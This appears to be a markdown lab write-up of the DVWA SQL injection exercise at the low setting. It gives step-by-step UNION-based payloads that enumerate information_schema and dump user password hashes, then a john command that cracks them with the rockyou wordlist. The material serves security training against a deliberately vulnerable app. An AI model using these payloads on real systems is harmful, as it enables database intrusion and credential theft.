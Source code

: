 # low
- we see a form that takes user input in the form of a "User ID"
- the form takes our input and returns the user's ID, first name, and last name.
- we test for SQLI
-  a single quote character (')
- we see an error
- You'll see something like this when user input isn't correctly sanitized before being used in a server-side SQL query
- we see from the error that the db is mariadb
- Reviewing the MariaDB documentation tells us that the special character % functions as a wildcard
- We'll need to find away to break out of the query the code wants us to make
- ```
  %' or '0'='0
  ```
- start seeing where DVWA keeps the passwords
- ```
  %' or '0'='0' union select * from password #
  ```
- No luck on that specific column, but it does confirm the database name of "dvwa"
- reviewing the MariaDB documentation tells us more useful info. It appears that we can pull all the column names from a MariaDB built-in table called "information_schema.COLUMNS"
- ```
  %' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
  ```
- says the amount of columns we're trying to pull don't equal the amount of columns we're displaying
- we make modifications
- ```
  %' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
  ```
- we see alot of output after alot of modification we got the final payload
- ```
  %' or '0'='0' union select user, password from dvwa.users #
  ```
- now we got the password hashes
- we crack them using john
- ```
  john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5

  ```
  
